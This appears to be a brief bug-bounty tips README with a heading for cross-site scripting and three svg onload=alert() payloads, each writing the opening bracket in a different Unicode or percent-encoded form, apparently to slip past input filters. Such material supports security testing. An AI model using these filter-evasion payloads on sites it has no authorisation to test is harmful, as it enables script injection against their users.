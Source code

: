 # BugBounty_tips

#Xss

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
